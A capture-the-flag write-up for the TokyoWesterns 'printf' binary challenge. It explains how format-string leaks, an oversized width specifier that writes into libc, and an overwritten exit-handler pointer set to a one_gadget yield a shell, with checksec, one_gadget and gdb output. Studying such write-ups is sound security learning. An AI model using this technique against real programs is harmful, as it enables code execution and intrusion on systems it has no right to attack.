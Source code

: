 For this challenge, we are given a binary, libc, and linker. The first thing to do is use [patchelf](https://github.com/NixOS/patchelf) so that the binary will be loaded with the correct linker/libc combination. Once this is done, I checked the security levels for the program with checksec. 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
 ```
 Okay, so all protections are turned on. Let's see what the program does.  This is the output by inputing "a\n" for the first prompt and "hello\n" for the second:
 
 ```
 ./printf
 What's your name?
 Hi,
a
Do you leave a comment? 
hello
 ```
 
 Giving a quick look over the binary in IDA, it is clear that the challenge is running printf on an uncontrolled user string twice. The twist here is that the printf is a custom implementation with ```%n``` disabled. Generating a leak is pretty easy by using the ```%lx``` format specifier. For example:
 
 ```
 What's your name?
%lx %lx %lx %lx
Hi,
0 7ffff7fc8580 7ffff7eee024 4
```

As you can see, we leaked some information from the stack. We are limited to 0x100 input bytes for the first format string, so by putting in a bunch of ```%lx``` tokens, we can leak the base address of the stack, libc, binary, and canary quite easily. 

Okay, with the data leaked we now need to figure out how to write. I spent a long time reversing the printf function and found two interesting things. First, the printf implementation will build the string that it eventually calls ```puts``` on in a different location than your originally provided string. Second, by placing a number after the percent format specifier (```%1000lx``` for example) we are able to adjust the stack pointer by about 1000 bytes. There is a check in the program to ensure the number we provide after the ```%``` is not negative. Thus, we cannot write up the stack and target a return pointer. 

I spent a lot of time experimenting with this by trying to use multiple ```%x``` specifiers to see if I could cause a negative number to be added to the stack pointer. Unfortunatley, this didn't work. However, I realized I was missing something. What is located past the end of the stack in the memory layout? Libc of course! So, by adjusting the number we put after the ```%``` specifier, we can obtain arbitrary write in libc. 

When ```libc_start_main``` returns, it will call the ```exit()``` function. This is important, because a bunch of function pointers are called before the process actually exits. You can check out where this is done in the source code here: [https://code.woboq.org/userspace/glibc/stdlib/exit.c.html](https://code.woboq.org/userspace/glibc/stdlib/exit.c.html). All we need to do now is overwrite one of these function pointers and we will have control of ```rip```!

Before I did this, I checked to see if there were any useful one\_gadgets in the libc we were given. Using the awesome tool [one\_gadget](https://github.com/david942j/one_gadget), I was able to easily find 4!

```
one_gadget libc.so.6
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

When I first attacked a function pointer in libc, I made sure to replace it with junk (such as 'CCCCCCCC') so that I could inspect the segfault easily and see the state of the registers at the time of the crash. 
```
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e28398 in ?? () from target:/home/a/Desktop/tokyo/libc.so.6
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────[ REGISTERS ]───────────────────────
 RAX  0x0
 RBX  0x7ffff7fc76c8 ◂— 0x4343434343434343 ('CCCCCCCC')
 RCX  0x0
 RDX  0x0
 RDI  0x555555559010 ◂— 0x0
 RSI  0x1
 R8   0x555555559008 ◂— 0x555555559008
 R9   0x7ffff7fcd540 ◂— 0x7ffff7fcd540
 R10  0x7fffffffe2b4 ◂— 0x1
 R11  0x2
 R12  0x7ffff7fc76d0 —▸ 0x7ffff7ec3383 (execvpe+979) ◂— mov    rsi, rcx
 R13  0x1
 R14  0x7ffff7fcb108 ◂— 0x0
 R15  0x0
 RBP  0x0
 RSP  0x7fffffffe3f0 ◂— 0x20786c2520786c25 ('%lx %lx ')
 RIP  0x7ffff7e28398 ◂— call   qword ptr [rbx]
────────────────────────[ DISASM ]─────────────────────────
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
   0x7ffff7e283a1    jne    0x7ffff7e28398
    ↓
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
   0x7ffff7e283a1    jne    0x7ffff7e28398
    ↓
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
─────────────────────────[ STACK ]─────────────────────────
00:0000│ rsp  0x7fffffffe3f0 ◂— 0x20786c2520786c25 ('%lx %lx ')
01:0008│      0x7fffffffe3f8 ◂— 0x120786c25
02:0010│      0x7fffffffe400 ◂— '%lx %lx '
03:0018│      0x7fffffffe408 ◂— 0x0
04:0020│      0x7fffffffe410 —▸ 0x555555556a40 ◂— push   r15
05:0028│      0x7fffffffe418 —▸ 0x5555555550d0 ◂— xor    ebp, ebp
06:0030│      0x7fffffffe420 —▸ 0x7fffffffe520 ◂— 0x1
07:0038│      0x7fffffffe428 ◂— 0x0
───────────────────────[ BACKTRACE ]───────────────────────
 ► f 0     7ffff7e28398
   f 1     7ffff7e283da
   f 2     7ffff7e07b72 __libc_start_main+242
Program received signal SIGSEGV (fault address 0x0)
```

Luckily, both RCX and RDX are NULL at the time of the crash! All we have to do is write the one\_gadget located at offset 0xe2383 to the location of the function pointer (0x7ffff7fc76c8) in libc and we will get a shell!

That's it! From here, you just run the script and get a flag! TWCTF{Pudding_Pudding_Pudding_purintoehu}

